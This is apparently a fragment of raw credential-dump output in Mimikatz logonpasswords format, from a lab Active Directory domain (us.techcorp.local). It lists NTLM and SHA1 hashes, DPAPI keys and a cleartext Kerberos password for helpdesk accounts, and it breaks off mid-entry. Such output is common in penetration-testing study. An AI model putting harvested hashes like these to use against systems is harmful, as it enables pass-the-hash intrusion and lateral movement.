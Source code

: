 ```
        msv :
         [00000003] Primary
         * Username : US-HELPDESK$
         * Domain   : US
         * NTLM     : 76c3848cc2e34ef0a8b5751f7e886b8e
         * SHA1     : 5358fe9870790deeb4ddda29a49863e48d1e5707
        tspkg :
        wdigest :
         * Username : US-HELPDESK$
         * Domain   : US
         * Password : (null)
        kerberos :
         * Username : US-HELPDESK$
         * Domain   : us.techcorp.local
         * Password : _P,6-6-[/Y(bUsRE7z/@/x2o&Aw/A+S.:HY4O"Um?ML"JJeEe>0^Ywi:18Q?:v^GZno&/M]tE-gIF8*8_/W``4SG]+R]#7n[dlTQ_qQ<LwB;t$1p?qCp9?j/
        ssp :
        credman :

Authentication Id : 0 ; 889622 (00000000:000d9316)
Session           : RemoteInteractive from 2
User Name         : helpdeskadmin
Domain            : US
Logon Server      : US-DC
Logon Time        : 1/8/2021 2:23:11 AM
SID               : S-1-5-21-210670787-2521448726-163245708-1120
        msv :
         [00000003] Primary
         * Username : helpdeskadmin
         * Domain   : US
         * NTLM     : 94b4a7961bb45377f6e7951b0d8630be
         * SHA1     : c13e73f3c1cccfb0e6b730afab4d2bd211e2af97
         * DPAPI    : 2b21c39dca16e98467e116b7c1d3eb4c
        tspkg :
        wdigest :
         * Username : helpdeskadmin
         * Domain   : US
         * Password : (null)
        kerberos :
         * Username : helpdeskadmin
         * Domain   : US.TECHCORP.LOCAL
         * Password : (null)
        ssp :
        credman :

Authentication Id : 0 ; 889539 (00000000:000d92c3)
Session           : RemoteInteractive from 2
User Name         : helpdeskadmin
Domain            : US
Logon Server      : US-DC
Logon Time        : 1/8/2021 2:23:11 AM
SID               : S-1-5-21-210670787-2521448726-163245708-1120
        msv :
         [00000003] Primary
         * Username : helpdeskadmin
         * Domain   : US
         * NTLM     : 94b4a7961bb45377f6e7951b0d8630be
         * SHA1     : c13e73f3c1cccfb0e6b730afab4d2bd211e2af97
         * DPAPI    : 2b21c39dca16e98467e116b7c1d3eb4c
        tspkg :
        wdigest :
         * Username : helpdeskadmin
         * Domain   : US
```